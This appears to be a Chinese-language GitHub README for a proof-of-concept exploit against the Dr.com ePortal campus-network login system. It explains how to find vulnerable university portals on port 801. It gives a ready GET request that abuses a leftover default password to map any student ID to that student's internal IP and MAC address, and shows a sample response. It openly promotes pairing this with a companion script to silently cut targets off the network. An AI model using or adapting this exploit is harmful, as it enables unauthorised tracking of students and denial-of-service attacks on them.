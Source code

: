 # Dr.com Got ur Id
Dr.com Eportal校园网认证系统未授权可根据学号获取内网ip地址 

😎测试版本: Guangzhou Hotspot Software Technology Co., Ltd. © 2020 EPortal4.1.3

🥳效果: 用此脚本可根据用户学号获取到其内网对应的ip地址，配合DrcomCutdown脚本可实现精准打击，在神不知鬼不觉的情况下可以对任意目标实施无接触断网。

## Recon
很多大学都在使用哆点的产品，那么如何识别您家大学是否也在使用，且可能存在漏洞？Fine
打开校园网认证界面，在ip后面加上端口号**:801**，如果能成功访问且您发现浏览器跳转到了此路径，那么很有可能存在此漏洞
**http://10.10.17.13:801/eportal/**

## POC
```
GET /eportal/portal/online_list?user_account=&user_password=123&wlan_user_mac=000000000000&wlan_user_ip={ipToParseInt}&lang=en HTTP/1.1
Host: XX.XX.XX.XX:801
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection:
```

## Principle
其实这个洞不应该说是未授权，因为要获取到信息的话讲道理是需要user_account和user_password这两个关键参数的，但是在翻看接口调用js的时候发现有个默认账户（user_acount参数留空，user_password填123，可能是历史遗漏debug用的？）
所以在调用的时候只需要知道wlan_user_ip就好了。
如果漏洞存在的话，可以获取到以下信息：
```
jsonpReturn({"result":1,"msg":"Access to user online information succeeded!","list":[{"online_session":55188,"online_time":"2024-06-01 11:15:23","online_ip":"XX.XX.XX.XX","online_mac":"{macAddress}","time_long":"4994","uplink_bytes":"6170","downlink_bytes":"65064","dhcp_host":"","device_alias":"","nas_ip":"0","user_account":"{学号}","is_owner_ip":"1"}],"total":1});
```

